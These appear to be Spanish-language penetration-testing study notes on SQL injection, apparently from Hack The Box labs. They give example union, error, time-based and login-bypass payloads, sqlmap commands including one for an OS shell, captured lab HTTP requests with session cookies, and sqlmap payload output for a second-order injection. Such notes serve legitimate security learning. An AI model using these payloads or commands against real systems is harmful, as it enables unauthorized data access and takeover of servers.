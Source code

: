# SQL Injection

## SQL Injection Fundamentals
- Una inyección SQL es una vulnerabilidad de seguridad que permite a un atacante interferir con las consultas que una aplicación web realiza a su base de datos SQL.
- La inyección SQL se produce cuando se insertan datos no validados en una consulta SQL.
- La inyección SQL puede ser utilizada para leer, modificar y eliminar datos de una base de datos.
- La inyección SQL puede ser utilizada para ejecutar comandos en el sistema operativo.
- Hay diferentes tipos de inyecciones SQL, como la inyección SQL basada en errores, la inyección SQL basada en tiempo y la inyección SQL ciega.
![](https://academy.hackthebox.com/storage/modules/33/types_of_sqli.jpg)
    - union based SQL injection
        - ejemplo de payload: `1' UNION SELECT 1,2,3 --`
    - error based SQL injection
        - ejemplo de payload: `1' AND 1=CONVERT(int, (SELECT @@version)) --`
    - time based SQL injection
        - ejemplo de payload: `1' AND IF(1=1, SLEEP(5), 0) --`
    - blind SQL injection
        - ejemplo de payload: `1' AND SLEEP(5) --`

### Deteccion de SQL Injection
- Generalmente al poner un `'` en un campo de texto y si la aplicación devuelve un error de SQL, es probable que sea vulnerable a SQL Injection.
- También se puede poner un comentario `--` como intento de primer payload.
- Otra forma de detectar SQL Injection es mediante la inyección de comandos SQL en los campos de texto y observar si la aplicación devuelve resultados inesperados.
    - **"Error: near line 1: near "'": syntax error"** es un mensaje de error común que se obtiene cuando se inyecta un `'` en un campo de texto.
    - Ejemplo: `1' OR '1'='1`

### Login Bypass SQL Injection
- La inyección SQL se puede utilizar para eludir la autenticación de un sistema.
- Ejemplo de payload: `admin' OR '1'='1`
    - Si el usuario y la contraseña son correctos, la consulta SQL se verá así: `SELECT * FROM users WHERE username='admin' AND password='password'`
    - Esto genera una tautología que siempre es verdadera, entonces la va a tomar como verdadera y va a permitir el acceso.
![](https://academy.hackthebox.com/storage/modules/33/or_inject_diagram.png)

## SQLMAP
- SQLMAP es una herramienta de prueba de penetración de código abierto que automatiza el proceso de detección y explotación de vulnerabilidades de inyección SQL.

### Comandos generales
- `sqlmap -u URL --dbs` para listar las bases de datos.
- `sqlmap -r HTTP-REQUEST-FILE --dbs` para usar un archivo con la request.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch` para usar un archivo con la request y no hacer preguntas.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3  --current-user --current-db --is-dba` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad, y obtener información del usuario actual, base de datos actual y si es DBA.

#### Anti-CSRF Token
- Si la aplicación web utiliza tokens CSRF, se puede usar el parámetro `--csrf-token` para especificar el token CSRF.
- Ejemplo: `sqlmap -u URL --csrf-token=CSRF-TOKEN --dbs`
- `sqlmap -u URL --randomize=rp --dbs` para randomizar el token CSRF.
- `sqlmap -u URL --eval="import time; time.sleep(10)" --csrf-token=CSRF-TOKEN --dbs` para evaluar un script de python y dormir el tiempo que se le pase como argumento.

#### OS shell
- `sqlmap -u URL --os-shell` para obtener una shell en el sistema operativo.


## SQLI en WebSockets
- Dentro de los websockets se pueden realizar consultas SQL.
- Hay que estar atento al burp proxy para ver las peticiones y respuestas.
- sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch

## Inyección SQL de Segundo Orden

La inyección SQL de segundo orden ocurre cuando los datos inyectados no se utilizan de inmediato, sino que se almacenan en la base de datos y se procesan posteriormente en una consulta SQL de manera insegura.

### Ejemplo:
1. El atacante introduce datos maliciosos en un formulario que se almacenan en la base de datos.
2. Más tarde, otra funcionalidad de la aplicación utiliza esos datos almacenados en una consulta SQL sin validarlos, permitiendo la explotación.

- Este tipo de inyección es más difícil de detectar, ya que el impacto no es inmediato y depende de cómo la aplicación maneje los datos almacenados.

- `sqlmap -r update_genres.req --second-req=user-feed.req  --dbs --level 5 --risk 3 --batch --tamper=space2comment --random-agent`
- Siendo update_genres.req un archivo que contiene una petición HTTP POST de una api que actualiza algo, o sea que es muy probable que haga una consulta del tipo `UPDATE table SET column = value WHERE condition`.
    - Y la segunda petición que practicamente hace GET user feed, o sea que recarga/fetchea/actualiza la información en la aplicación.


### update_genres.req
```http	
POST /api/v1/gallery/user/genres HTTP/1.1
Host: 10.10.11.220
Content-Length: 17
X-XSRF-TOKEN: eyJpdiI6ImdtZ0VkQXI0aUZtTUVVNzZxUnF6VlE9PSIsInZhbHVlIjoiYmZTRGVOWmptTVN3S2NldGlZNWtxdkozYUF0N25HWXVuazRuL0hBTGo0QnRaSCsrVWhMNkNuV1ltaUhvbkxDbFlTaVJueFcvdVhvamFLbE9wREgxZkEvdjA0L0J0bWxvSWNma2VUZ3JyWXYraG1Vb1VZeVVqNXV0bDBtUStib0ciLCJtYWMiOiJjNWU2ZDkwYWM1MGQ3NDQ4MjE2ZTZhYmU0ZjRkNzU5NDhjZTNhODEzNzA1ZDlmY2UwOWNjNDM1OGYwYzdkMTdiIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Origin: http://10.10.11.220
Referer: http://10.10.11.220/gallery
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzQ0MDQ3MzcwLCJleHAiOjE3NDQwNjg5NzAsIm5iZiI6MTc0NDA0NzM3MCwianRpIjoiNDB3T0RMR2l1Qkp1aFczTyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.N18GEbvP-Lpdcm-w0VsyqQ-Ihbyu5KYNq9obdXn65Aw; XSRF-TOKEN=eyJpdiI6ImdtZ0VkQXI0aUZtTUVVNzZxUnF6VlE9PSIsInZhbHVlIjoiYmZTRGVOWmptTVN3S2NldGlZNWtxdkozYUF0N25HWXVuazRuL0hBTGo0QnRaSCsrVWhMNkNuV1ltaUhvbkxDbFlTaVJueFcvdVhvamFLbE9wREgxZkEvdjA0L0J0bWxvSWNma2VUZ3JyWXYraG1Vb1VZeVVqNXV0bDBtUStib0ciLCJtYWMiOiJjNWU2ZDkwYWM1MGQ3NDQ4MjE2ZTZhYmU0ZjRkNzU5NDhjZTNhODEzNzA1ZDlmY2UwOWNjNDM1OGYwYzdkMTdiIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IlJXOWRQK0tJbk1jaUhCZDRLYktQV2c9PSIsInZhbHVlIjoiYWh4TGJYb1BjcnhMN2VVMWp2YzJiSkJoc0lRbjEzRVgxalc3Sm9aUUoyVktwaG9vZUdyWmpqYTZVTjc1bUQ2VFExUDd0UTVXTVdRMkxTaExsNGdVR0kvUTMxNzNwQlloS25yczJvUHlFelFobVQ2YWo1ZzVOQUdxRE9HM28xdTciLCJtYWMiOiJiN2U3MmNlOWI3ODYzNDE0ZTNhNDlkMDBiNmUzYTcyN2EwZGM1NTA2Yjc0MDMzOWU4NDkyODg2Zjc5N2YwNTUyIiwidGFnIjoiIn0%3D
Connection: keep-alive

{"genres":"test"}
``` 

### user-feed.req
```http
GET /api/v1/gallery/user/feed HTTP/1.1
Host: 10.10.11.220
X-XSRF-TOKEN: eyJpdiI6Im9JNktoUVE1cjA0NWpVMWlMcVdkbkE9PSIsInZhbHVlIjoiandkUFV2YTJIbTYwRjBiR0UyWG9HOUkxa1VtcDNJNGx4TWJDbU1FRnVURERWdThtdkR3TzJ4eXdENVNzcnNJcFpZanpWeFBPbzd1bUxHcVJzd0V4UmNsR0FDd29UbVNKVDcvUmtJN3BoVnBORnRxcHljTmJGTFdKbFFSOHF6MTciLCJtYWMiOiIwMGFhODg1NjcwZmExZDllMjNkYWQ2MzYwM2I2YjBkMjk4ZmNiZDBiZDZhOWMyOGE0NTMxOTViYjA3Y2UwNTVkIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Referer: http://10.10.11.220/gallery
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzQ0MDQ3MzcwLCJleHAiOjE3NDQwNjg5NzAsIm5iZiI6MTc0NDA0NzM3MCwianRpIjoiNDB3T0RMR2l1Qkp1aFczTyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.N18GEbvP-Lpdcm-w0VsyqQ-Ihbyu5KYNq9obdXn65Aw; XSRF-TOKEN=eyJpdiI6Im9JNktoUVE1cjA0NWpVMWlMcVdkbkE9PSIsInZhbHVlIjoiandkUFV2YTJIbTYwRjBiR0UyWG9HOUkxa1VtcDNJNGx4TWJDbU1FRnVURERWdThtdkR3TzJ4eXdENVNzcnNJcFpZanpWeFBPbzd1bUxHcVJzd0V4UmNsR0FDd29UbVNKVDcvUmtJN3BoVnBORnRxcHljTmJGTFdKbFFSOHF6MTciLCJtYWMiOiIwMGFhODg1NjcwZmExZDllMjNkYWQ2MzYwM2I2YjBkMjk4ZmNiZDBiZDZhOWMyOGE0NTMxOTViYjA3Y2UwNTVkIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IjBlMDYybXlIRklhZHdVU0UrdGtFNEE9PSIsInZhbHVlIjoibEc5VU9FNDhISDdzUXdpYTJlcVBLK0xrbVhkeEVScndZVGcvRTl6Rm1iOVE3REV5bys2djdXWEQ4K0treVRWMEFzZkoxSGNmTTFwRzVraU1VYzBzRUpEcDM2WkxFT2xpUnFNVUFrVFQ2YktuT3hUQ3pkUkhSZCtWbDNvOXlCVi8iLCJtYWMiOiJkY2E0YmFmMWExZDdiZTcxNjUyZDUyZDE2MWMyZjk4OGUzZjM3NjZkNGY0ZWI2YmIwMTIzOTJmYzc4ODFmNjZiIiwidGFnIjoiIn0%3D
Connection: keep-alive
```

### Payloads
``` 
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: {"genres":"test') OR NOT 5455=5455 AND ('QYvP'='QYvP"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"test') AND (SELECT 5404 FROM (SELECT(SLEEP(5)))LAtK) AND ('ClJK'='ClJK"}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: {"genres":"test') UNION ALL SELECT NULL,CONCAT(0x7162787071,0x4a4268414d737150586b687553784e4d757851796e6c724c68666a646d4c4c706e78736c51435370,0x7171627671),NULL,NULL,NULL#"}
---
```

- Entonces el comportamiento de la aplicación es el siguiente:
    - Actualizas los géneros de un usuario, y luego haces un GET a la api de user feed.
    - La aplicación hace un SELECT a la base de datos para obtener los géneros del usuario y mostrarlos en la aplicación.
- La inyección SQL de segundo orden se produce cuando la aplicación almacena los datos inyectados en la base de datos y luego los utiliza en una consulta SQL sin validarlos.
- petición POST => Guardas una inyección SQL en la base de datos.
- petición GET => La aplicación hace un SELECT a la base de datos y muestra los datos inyectados en la aplicación.
- La inyección SQL de segundo orden se produce cuando la aplicación almacena los datos inyectados en la base de datos y luego los utiliza en una consulta SQL sin validarlos.